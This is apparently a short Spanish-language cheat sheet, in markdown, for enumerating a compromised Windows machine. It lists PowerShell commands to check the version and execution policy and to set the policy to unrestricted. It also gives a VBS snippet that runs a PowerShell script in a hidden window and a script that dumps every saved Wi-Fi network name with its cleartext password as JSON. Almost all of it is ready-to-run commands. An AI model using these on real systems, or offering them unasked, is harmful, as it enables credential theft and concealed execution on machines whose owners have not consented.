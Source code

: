 
# Enumeracion de una máquina comprometida con Windows

1. Preguntar si puedes ejecutar powershell y la version.

```
powershell -Command "&{ $PSVersionTable.PSVersion }" 
```

2. Preguntar por el politica de ejecución.

```
powershell -Command "&{ Get-ExecutionPolicy }"
```

3. Tratadar de quitarla.

```
powershell -Command "&{ Set-ExecutionPolicy unrestricted }"
```

# Esconder la ejecución de powershell con vbs

Se usan las siguientes lineas en el archivo vbs.

```
Dim shell,command
command = "powershell.exe -nologo -File D:\myscript.ps1"
Set shell = CreateObject("WScript.Shell")
shell.Run command,0
```
# Obtener credenciales de las red wifi

```
$wssids = (netsh wlan show profiles | Select-String ': ' ) -replace ".*:\s+"
$wifinfo = foreach($ssid in $wssids) {
    $pass = (netsh wlan show profiles name=$ssid key=clear | Select-String 'Key Content') -replace ".*:\s+"
    New-Object -TypeName psobject -Property @{"SSID"=$ssid;"Password"=$pass}
}  
$wifinfo | ConvertTo-Json
```
